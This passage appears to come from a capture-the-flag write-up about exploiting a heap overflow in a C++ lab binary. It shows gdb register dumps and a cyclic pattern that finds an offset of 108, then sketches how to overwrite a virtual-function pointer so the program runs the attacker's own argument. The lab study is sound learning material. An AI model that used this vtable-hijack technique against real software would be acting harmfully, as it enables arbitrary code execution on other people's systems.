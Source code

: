 On the next two instructions, it will read in memory at address contained in `eax` 2 times.  
`eax` is pointing on a pointer to the `operator+` **virtual** function, but with our argument,  
we overwritten this pointer to pointer to function.  

```bash
(gdb) ni
0x08048682 in main ()
(gdb) info r
eax            0x41366441	1094083649
ecx            0x67413567	1732326759
edx            0x804a0d4	134521044
ebx            0x804a078	134520952
esp            0xbffff650	0xbffff650
ebp            0xbffff678	0xbffff678
esi            0x0	0
edi            0x0	0
eip            0x8048682	0x8048682 <main+142>
eflags         0x200287	[ CF PF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

In `eax`, there is a part of our argument because it was too big.  
Comparing this part to the agument let us know where to put data to make the program load it into `eax`.  

If I convert `0x41366441` to ascii?
Let's test it: `echo -e '\x41\x64\x36\x41'` __(take care, addresses in some of machine is little-endian, that means bytes have to be read right to left)__  
It gives: `Ad6A`

```bash
------------------------------------------------------------------------------------------------------------Ad6A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

**The offset is 108**

Ok ok... now use our brains...  

**What if I overflow to the pointer and replace it with a segment on which I can write?**  
Remember, I guessed where the `argv[1]` is copied into the heap.  

If my pointer point to the start of this segment, the next dereferencing will read  
the first 4 bytes of my argument too dereference it once again.  

**If the overwritten pointer point to a pointer at start of my start how point itself+bytes? Where am I?**  
This payload make me executing my own argument starting at the fourth byte.  

